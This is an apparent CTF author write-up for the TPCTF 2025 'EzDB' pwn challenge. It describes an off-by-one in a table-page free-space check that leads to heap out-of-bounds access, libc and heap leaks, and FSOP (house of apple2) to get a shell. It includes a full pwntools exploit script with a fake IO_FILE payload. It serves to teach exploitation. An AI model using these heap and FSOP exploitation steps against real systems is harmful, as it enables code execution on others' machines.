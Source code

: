 # TPCTF 2025 EzDB

Source code and attachment for this challenge is [here](https://github.com/Rosayxy/EzDB-SourceCode-TPCTF2025)

Visit [here](https://rosayxy.github.io/tpctf-author-writeup-ezdb/) for the author's writeup

## overview

This challenge is mainly inspired by the DB course of THU CST. Some resources of the course is [here](https://github.com/thu-db).

This challenge implements a table page to store stuff, with such basic functionalities as creating and removing a page, creating and editing entries in the page and such.

## vulnerability

At function `TablePage::InsertRecord`, it checks the following condition `TablePage::GetFreeSpaceSize(this) < (unsigned __int64)(Size + 4LL)`, whereas the `TablePage::GetFreeSpaceSize` is defined as below

```cpp
__int64 __fastcall TablePage::GetFreeSpaceSize(TablePage *this)
{
  return *((_QWORD *)this + 2) - *((_QWORD *)this + 1) + 1LL;
}
```

Actually, in the source code `*((_QWORD *)this + 2)`, `*((_QWORD *)this + 1)` are marked respectively as the higher and lower pointer of this page. We see its intialization below:

```cpp
TablePage *__fastcall TablePage::Init(TablePage *this)
{
  TablePage *result; // rax

  *(_QWORD *)this = malloc(0x400uLL);
  *((_QWORD *)this + 1) = *(_QWORD *)this;
  *((_QWORD *)this + 2) = *(_QWORD *)this + 0x400LL;
  result = this;
  *((_QWORD *)this + 3) = *(_QWORD *)this;
  return result;
}
```

So we get to know the GetFreeSize should be returning `*((_QWORD *)this + 2) - *((_QWORD *)this + 1)`. When we have `TablePage::GetFreeSpaceSize(this) == (unsigned __int64)(Size + 4LL)(the 4 is the slot size here)`, we have an overflow into the highest byte of the newest slot, which is defined as below in the source code

```cpp
struct Slot{
    unsigned short offset;
    unsigned short size;
};
```

So we can modify the size into a large value of the newest slot. This gives us a heap oob read & write with a big-enough-for-everything offset using the `TablePage::EditRecord` and `TablePage::GetRecord` functions.

## leak

We can stuff 7 pages into tcache bin first, when we free the 8th page, it goes into the unsorted bin and the fd and bk pointers are libc-related addresses. We can leak the libc base address from it.

The TablePage object’s page_, lower_, upper_ pointers are all heap addresses. We can leak the heap base address here.

## exploit

### convert to arbitrary write

We can convert a heap-arbitrary-write primitive to an arbitrary-write primitive by editing the upper_ pointer of a TablePage object at a higher heap address. We edit the upper_ pointer to an arbitrary address plus some offset. Then we can call `TablePage::InsertRecord` function of that TablePage object to write the content to the arbitrary address.

### FSOP

Because it is glibc-2.35, we choose to write _IO_list_all to a heap address and construct a fake IO_file object at the address.

The construct the fake IO_file using the idea of [house of apple2](https://bbs.kanxue.com/thread-273832.htm), then we return from the main function to trigger the FSOP, and guess what? We get the shell!

## exp

Note: I was having a fascinating Shakespeare elective course and multitasking when writing the exp. At first, I didn’t realize that the overflow in the page would overflow into the high byte rather than the low byte of the slot’s size, so some parts of the exp might be a bit messy. My apologies :(

```python
from pwn import*
context(log_level='debug',arch='amd64',os='linux')
p = process("./db")
# p = remote("61.147.171.105",52702)
libc = ELF("./libc.so.6")
def create_table(idx):
    p.recvuntil(">>> ")
    p.sendline("1")
    p.recvuntil("Index: ")
    p.sendline(str(idx))

def remove_table(idx):
    p.recvuntil(">>> ")
    p.sendline("2")
    p.recvuntil("Index: ")
    p.sendline(str(idx))

def insert_record(idx,len,content):
    p.recvuntil(">>> ")
    p.sendline("3")
    p.recvuntil("Index: ")
    p.sendline(str(idx))
    p.recvuntil("Length: ")
    p.sendline(str(len))
    p.recvuntil("Varchar: ")
    p.send(content)

def get_record(idx,slot_id):
    p.recvuntil(">>> ")
    p.sendline("4")
    p.recvuntil("Index: ")
    p.sendline(str(idx))
    p.recvuntil("Slot ID: ")
    p.sendline(str(slot_id))

def edit_record(idx,slot_id,len,content):
    p.recvuntil(">>> ")
    p.sendline("5")
    p.recvuntil("Index: ")
    p.sendline(str(idx))
    p.recvuntil("Slot ID: ")
    p.sendline(str(slot_id))
    p.recvuntil("Length: ")
    p.sendline(str(len))
    p.recvuntil("Varchar: ")
    p.send(content)

# leak libc first
# 整8个塞 tcache 里面吧
for i in range(9):
    create_table(i)
for i in range(203):
    insert_record(0,1,"A")
#insert vuln record
insert_record(0,6,b"\x02"*6)
for i in range(8):
    remove_table(8-i)

get_record(0,203)
p.recvline()
leaks = p.recv(0x140)
# 0x1d 0x106
heap_leak = u64(leaks[0xf2:0xf2 + 8])
print(hex(heap_leak))
libc_leak = u64(leaks[0x11a:(0x11a + 8)])
print(hex(libc_leak))
heap_base = heap_leak - 0x12320
# 0x7fbd726c7ce0 - 0x7fbd724ad000
libc_base = libc_leak - 0x21ace0
print(hex(heap_base))
print(hex(libc_base))
# 把所有堆块都占住 然后改 page_ 指针
for i in range(8):
    create_table(i+1)
# 占一个堆块写 fake IO_file
fake_io_addr = heap_base + 0x12730 +0x430 - 0xf0 # TODO
system_addr=libc_base+libc.sym["system"]
fake_io_file=b"  sh;".ljust(0x8,b"\x00")
fake_io_file+=p64(0)*3+p64(1)+p64(2)
fake_io_file=fake_io_file.ljust(0x30,b"\x00")
fake_io_file+=p64(0)
fake_io_file=fake_io_file.ljust(0x68,b"\x00")
fake_io_file+=p64(system_addr)
fake_io_file=fake_io_file.ljust(0x88,b"\x00")
fake_io_file+=p64(libc_base+0x21ca60) # lock
fake_io_file=fake_io_file.ljust(0xa0,b"\x00")
fake_io_file+=p64(fake_io_addr)
fake_io_file=fake_io_file.ljust(0xd8,b"\x00")
fake_io_file+=p64(0x216f40+libc_base) # 使得可以调用 _IO_wfile_overflow
fake_io_file+=p64(fake_io_addr)+p64(0) # 0xf0
# 直接溢出改 page_ 指针
insert_record(1,0xf0,fake_io_file)

payload = b"\x02"*6+b"a"*203 + p64(0)+p64(0x31)+p64(heap_base + 0x12320)*2+p64(libc_base + libc.sym["_IO_list_all"]+0x8)+p64(heap_base + 0x12320)
edit_record(0,203,0x140,payload)
insert_record(8,0x8,p64(fake_io_addr))

# trigger!
p.recvuntil(">>> ")
p.sendline("6")

p.interactive()
```

## conclusion

Thank everyone for participating in the TPCTF game! Spring is coming and hope you have a nice time!

[Here](https://github.com/Rosayxy/EzDB-SourceCode-TPCTF2025/tree/main) is the source code.
